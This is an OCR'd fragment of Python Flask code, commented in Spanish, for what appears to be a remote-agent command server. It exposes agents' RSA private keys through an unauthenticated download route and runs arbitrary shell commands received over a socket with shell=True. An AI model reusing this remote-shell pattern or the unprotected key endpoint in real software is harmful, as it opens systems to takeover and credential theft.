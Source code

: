 
@app.route('/download_private_key/<int:agent_id>', methods=['GET']) # Descargar la clave privada 
def download_private_key(agent_id):
    agent = next((a for a in agents if a['id'] == agent_id), None)
    
    if not agent:
        return jsonify({'error': 'Agente no encontrado'}), 404
    
    private_key_io = BytesIO(agent['private_key'].encode('utf-8'))
    return send_file(private_key_io, as_attachment=True, download_name="rsa_private.pem", mimetype='application/x-pem-file')

# Función para manejar la ejecución de comandos en los agentes
def handle_agent_connection(agent_socket, agent_address):
    global connected_agents  

    try:
        agent_id = agent_socket.recv(1024).decode('utf-8')  # Recibir el ID del agente
        agent_id = int(agent_id)  # Convertir a entero
        print(f"Agente {agent_id} conectado desde {agent_address}")

        connected_agents[agent_id] = agent_socket  # Guardar el socket del agente

        while True:  
            command = agent_socket.recv(1024).decode('utf-8')
            if command.lower() == "exit":
                break
            elif command:
                result = subprocess.run(command, shell=True, capture_output=True, text=True)
                output = result.stdout if result.stdout else result.stderr
                agent_socket.send(output.encode('utf-8'))
            else:
                agent_socket.send("Comando vacío.\n".encode('utf-8'))

    except Exception as e:
        print(f"Error con el agente {agent_id}: {e}")
    finally:
        agent_socket.close()
        connected_agents.pop(agent_id, None)  # Eliminar el agente desconectado
        print(f"Agente {agent_id} desconectado.")

@app.route('/execute_command/<int:agent_id>', methods=['GET', 'POST'])
def execute_command(agent_id):
    if request.method == 'POST':
        command = request.form.get('command')
        print("Enviando comando al agente:", command)
        
        agent_socket = connected_agents.get(agent_id)
        print("Conexiones activas:", connected_agents)
        if not agent_socket:
            return jsonify({'error': 'Agente no está conectado'}), 404

        # Enviar el comando al agente
        agent_socket.send(command.encode('utf-8'))
